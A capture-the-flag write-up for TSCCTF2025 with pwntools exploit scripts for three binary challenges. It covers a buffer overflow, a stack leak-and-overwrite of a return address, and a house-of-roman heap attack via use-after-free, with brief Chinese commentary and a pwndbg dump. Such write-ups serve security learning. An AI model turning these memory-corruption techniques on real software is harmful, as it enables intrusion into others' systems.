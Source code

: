 # Tscctf2025


# TSCCTF2025

## gamble_bad_bad

```python
rv = b&#39;\xa1\x8d\xef\xbc\x9a&#39;

payload = b&#39;a&#39; * 0x14 &#43; b&#39;\x37\x37\x37\x00&#39;
pause()
sla(rv, payload)
```

## Localstack

```python
menu = b&#39;&gt;&gt; &#39;

def push(value):
    sla(menu, f&#39;push {str(value)}&#39;.encode())
    print(f&#39;push {(str(value))}&#39;)


def pop():
    sla(menu, b&#39;pop&#39;)


def show():
    sla(menu, b&#39;show&#39;)


def ex1t():
    sla(menu, b&#39;exit&#39;)


rv_list = []
rv = 0

for i in range(9):
    pop()
    ru(b&#39;Popped &#39;)
    rv = int(ru(b&#39; &#39;)[:-1])
    print(hex(rv))
    if rv &gt;= 0:
        rv_list.append(rv)
    else:
        rv_list.append((rv &#43; 0xffffffffffffffff &#43; 1) &amp; 0xffffffffffffffff)

show()
libc_base = rv - 0x7f410
lg(&#34;libc_base&#34;)
for i in range(1, len(rv_list))[::-1]:
    print(i)
    # print(hex(rv_list[i]))
    push(rv_list[i])

push(29)
push(30)

push(libc_base)

ia()
```

pop泄露地址，push写地址，国外比赛是不是都喜欢出覆盖计数指针的题，上次才见过一个只能一个字节一个字节写的题也是打计数指针，算一下rsp到rbp的偏移就行

这样可以写返回地址了，然后看了眼有后门函数，那就不用泄露libc了，泄露出pie_base然后写print_flag&#43;pie_base即可

















## noview

有uaf，没有show函数，肯定是打roman，为了方便，我patch了2.23的，复习一下

house of roman的关键还是在于这个既在fastbin里，又在unsortedbin里的bin

在有uaf或者off by one的情况下都可以使用下面这种方法：

```python
add(0, 0x60, )  # 000
edit(0, p64(0) &#43; p64(0x71))
add(1, 0x60)        # 070
edit(1, b&#39;ffff&#39;)
add(2, 0x60)  # 0f0
edit(2, p64(0) * 3 &#43; p64(0x51))
delete(0)
delete(1)  # delete 070
edit(1, p8(0x10))
add(3, 0x60)  # add 070
edit(3, b&#39;gggg&#39;)
add(4, 0x60)  # add 010
edit(4, p64(0) * 0xb &#43; p64(0x71))
delete(3)
edit(4, p64(0) * 0xb &#43; p64(0x91))
delete(3)
```

关键就在于使用off-by-one或者uaf，将fastbin的大小换成unsortedbin的，然后重新free一次

![image-20250125184607790](.\images\image-20250125184607790.png)

找到可以作为size的地址`0x7efd01c1b73d`，然后将其低两位写入一个unsortedbin中的main_arena&#43;96指针中

```gdb
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x56206343b2b0
Size: 0x810 (with flag bits: 0x811)
fd: 0x7f910fe1b73d
bk: 0x7f910fe1ace0

Allocated chunk
Addr: 0x56206343bac0
Size: 0x20 (with flag bits: 0x20)

Top chunk | PREV_INUSE
Addr: 0x56206343bae0
Size: 0x20520 (with flag bits: 0x20521)

pwndbg&gt; tele 0x56206343b2b0
00:0000│  0x56206343b2b0 ◂— 0x0
01:0008│  0x56206343b2b8 ◂— 0x811
02:0010│  0x56206343b2c0 —▸ 0x7f910fe1b73d (_IO_2_1_stderr_&#43;157) ◂— 0x910fe1a8a0000000
03:0018│  0x56206343b2c8 —▸ 0x7f910fe1ace0 (main_arena&#43;96) —▸ 0x56206343bae0 ◂— 0x0
04:0020│  0x56206343b2d0 ◂— 0x0
... ↓     3 skipped
```

分配两次，第二次分配就可以覆盖`_IO_2_1_stdout_`的`_IO_write_base`低位为`\x00`


---

> 作者:   
> URL: https://yukon163.github.io/posts/814a8c6/  

